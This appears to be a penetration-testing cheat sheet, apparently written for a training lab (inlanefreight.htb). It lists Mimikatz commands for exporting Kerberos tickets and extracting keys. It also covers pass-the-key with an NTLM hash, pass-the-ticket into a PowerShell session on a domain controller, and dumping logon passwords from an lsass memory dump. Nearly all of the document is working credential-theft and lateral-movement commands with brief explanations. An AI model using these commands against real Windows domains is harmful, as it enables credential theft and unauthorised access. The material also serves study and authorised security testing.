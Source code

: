 # Mimikatz

### Mimikatz - Export Tickets

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
sekurlsa::tickets /export
```

```cmd-session
exit
```

* The tickets that end with `$` correspond to the computer account, which needs a ticket to interact with the Active Directory.
* User tickets have the user's name,
  * followed by an `@` that separates the service name and the domain, for example: `[randomvalue]-username@service-domain.local.kirbi`.
* We can also export tickets using Rubeus and the option dump
  * This option can be used to dump all tickets (if running as a local administrator).&#x20;
* `Rubeus dump`, instead of giving us a file, will print the ticket encoded in base64 format. We are adding the option `/nowrap` for easier copy-paste.

### Mimikatz - Extract Kerberos Keys

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::ekeys
```

### Mimikatz - Pass the Key or OverPass the Hash

```cmd-session
mimikatz.exe
privilege::debug
sekurlsa::pth /domain:inlanefreight.htb /user:plaintext /ntlm:3f74aa8f08f712f09cd5177b5c1ce50f
```

### Mimikatz - Pass the Ticket

```cmd-session
mimikatz.exe 
privilege::debug
kerberos::ptt "C:\Users\plaintext\Desktop\Mimikatz\[0;6c680]-2-0-40e10000-plaintext@krbtgt-inlanefreight.htb.kirbi"
```

### Mimikatz - PowerShell Remoting with Pass the Ticket

```cmd-session
mimikatz.exe
```

```cmd-session
privilege::debug
```

```cmd-session
kerberos::ptt "C:\Users\Administrator.WIN01\Desktop\[0;1812a]-2-0-40e10000-john@krbtgt-INLANEFREIGHT.HTB.kirbi"
```

```cmd-session
exit
```

```cmd-session
powershell
```

```cmd-session
Enter-PSSession -ComputerName DC01
```

```cmd-session
[DC01]: PS C:\Users\john\Documents> whoami
```

```cmd-session
[DC01]: PS C:\Users\john\Documents> hostname
```

### Mimikatz - If you already have lsass.dmp

* Note: It is always a good idea to type "log" before running any commands in "Mimikatz" this way all command output will put output to a ".txt" file.
  * This is especially useful when dumping credentials from a server which may have many sets of credentials in memory.

```cmd-session
mimikatz.exe
```

```cmd-session
log
```

```cmd-session
sekurlsa::minidump lsass.dmp
```

```cmd-session
sekurlsa::logonpasswords
```
